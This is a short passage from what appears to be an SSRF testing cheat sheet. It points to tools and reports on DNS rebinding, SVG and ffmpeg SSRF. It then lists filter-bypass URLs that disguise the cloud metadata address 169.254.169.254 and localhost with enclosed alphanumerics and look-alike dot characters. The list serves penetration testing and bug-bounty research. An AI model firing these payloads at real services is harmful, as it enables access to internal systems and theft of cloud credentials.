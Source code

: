 DNS Rebinding Exploitation Framework - https://github.com/mwrlabs/dref

***

### cloud-metadata.txt - Cloud Metadata Dictionary useful for SSRF Testing

***

### svg - SSRF with svg files

***

### ffmpeg - SSRF with ffmpeg

https://hackerone.com/reports/237381

https://hackerone.com/reports/243470

https://github.com/neex/ffmpeg-avi-m3u-xbin

https://www.blackhat.com/docs/us-16/materials/us-16-Ermishkin-Viral-Video-Exploiting-Ssrf-In-Video-Converters.pdf

https://docs.google.com/presentation/d/1yqWy_aE3dQNXAhW8kxMxRqtP7qMHaIfMzUDpEqFneos/edit#slide=id.g22371f2702_0_15

***

### iframe - SSRF with html iframe + URL bypass

#### Live demo:

`http://ssrf.localdomain.pw/iframe/?proto=http&ip=127.0.0.1&port=80&url=/`

***

### Abusing Enclosed Alphanumerics

`http://169。254。169。254/`

`http://169｡254｡169｡254/`

`http://⑯⑨。②⑤④。⑯⑨｡②⑤④/`

`http://⓪ⓧⓐ⑨｡⓪ⓧⓕⓔ｡⓪ⓧⓐ⑨｡⓪ⓧⓕⓔ:80/`

`http://⓪ⓧⓐ⑨ⓕⓔⓐ⑨ⓕⓔ:80/`

`http://②⑧⑤②⓪③⑨①⑥⑥:80/`

`http://④②⑤｡⑤①⓪｡④②⑤｡⑤①⓪:80/`

`http://⓪②⑤①。⓪③⑦⑥。⓪②⑤①。⓪③⑦⑥:80/`

`http://⓪⓪②⑤①｡⓪⓪⓪③⑦⑥｡⓪⓪⓪⓪②⑤①｡⓪⓪⓪⓪⓪③⑦⑥:80/`

`http://[::①⑥⑨｡②⑤④｡⑯⑨｡②⑤④]:80/`
